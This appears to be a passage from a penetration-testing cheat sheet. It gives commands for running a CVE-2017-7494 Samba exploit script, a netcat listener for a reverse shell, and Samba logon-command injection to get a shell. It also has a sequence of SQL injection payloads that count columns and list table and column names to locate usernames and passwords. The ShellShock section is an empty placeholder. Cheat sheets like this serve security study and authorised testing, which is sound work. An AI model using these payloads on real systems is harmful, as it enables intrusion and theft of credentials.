 My example payload sends two ICMP packets to my computer. Therefore, the command sentence below is necessary to confirm the exploit works. If you chose to include a reverse shell, you would run something like `sudo nc -nvlp 443` instead.
```bash
sudo tcpdump -i tun0 icmp
```

Run the exploit.
```bash
python cve_2017_7494.py -t $RHOST --rhost $LHOST --rport $LPORT
```

#### ShellShock via SMTP
**CVE-2014-6271**
```bash
# technique goes here
```

#### Shell via Samba Logon Command
```bash
mkdir /mnt/$TARGET
sudo mount -t cifs //$TARGET/$SHARE /mnt/$TARGET
sudo cp $EXPLOIT /mnt/$TARGET
smbclient //$TARGET/$SHARE
logon "=`$EXPLOIT`"
```

#### SQL Injection
Check for a SQLi vulnerability
```bash
'
```

Check the quality of SQLi vulnerability
```bash
' or 1=1 --
```

Get the number of columns of a table (increment the number until there is an error; ex: if 4 triggers an error, there are 3 columns).
```sql
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
' ORDER BY 4 --
```

Get all table names (look for user/admin tables).
```sql
' UNION ALL SELECT table_name,null,null FROM all_tables --
```

Get all possible column names within the entire database (look for values like "username" and "password").
```sql
' UNION ALL SELECT column_name,null,null FROM user_tab_cols --
```
